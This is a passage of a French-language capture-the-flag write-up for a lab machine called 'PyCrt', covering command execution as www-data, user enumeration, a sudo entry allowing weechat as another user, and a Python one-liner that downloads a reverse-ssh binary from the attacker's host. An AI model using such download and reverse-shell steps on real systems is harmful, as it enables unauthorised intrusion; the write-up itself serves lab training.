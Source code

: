 ```python
    print(response.text.split("<pre>")[1].split("</pre>")[0])
```

Il s'est avéré que l'exécution n'était pas parfaite, par exemple j'ai une seule ligne pour les entrées dans `home`...

```console
$ python cmd.py 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html/ShadowSec
$ ls /home -al
drwx------  4 pycrtlake pycrtlake 4096 Apr  5 08:23 pycrtlake
```

Ce sera tout de même suffisant pour rapatrier un `reverse-ssh`... seulement ni `curl` ni `wget` ne sont disponibles sur le système.

Je m'en tire avec ce one-liner Python :

```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('http://192.168.242.1:8000/reverse-sshx64', 'reverse-sshx64')"
```

### Whenever, Wherever

Je m'intéresse aux deux utilisateurs présents. Je relève que `pycrtlake` possède un bot IRC mais il est illisible :

```console
www-data@PyCrt:/home$ find / -user pycrtlake 2> /dev/null
/usr/local/bin/irc_bot.py
/home/pycrtlake
www-data@PyCrt:/home$ ls -alh /usr/local/bin/irc_bot.py
-rwxr-x--- 1 pycrtlake pycrtlake 5.7K Apr  5 08:32 /usr/local/bin/irc_bot.py
```

L'utilisateur `www-data` a une entrée sudoers, ce sera notre porte de sortie :

```console
www-data@PyCrt:/home$ sudo -l
Matching Defaults entries for www-data on PyCrt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on PyCrt:
    (chatlake) NOPASSWD: /usr/bin/weechat
```

`[weechat](https://weechat.org/) est un vrai client IRC, pas un binaire custom.

Au lancement on a une interface TUI, style ncurses :

```
1.weechat│WeeChat 3.0 (C) 2003-2020 - https://weechat.org/
│         10:27:40     |   ___       __         ______________        _____ 
│         10:27:40     |   __ |     / /___________  ____/__  /_______ __  /_
│         10:27:40     |   __ | /| / /_  _ \  _ \  /    __  __ \  __ `/  __/
│         10:27:40     |   __ |/ |/ / /  __/  __/ /___  _  / / / /_/ // /_  
│         10:27:40     |   ____/|__/  \___/\___/\____/  /_/ /_/\__,_/ \__/  
│         10:27:40     | WeeChat 3.0 [compiled on Jan 23 2022 14:29:14]
│         10:27:40     | - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
│         10:27:41     | Plugins loaded: alias, buflist, charset, exec, fifo, fset, irc, logger, perl, python, relay, ruby, script, spell, trigger, xfer
```
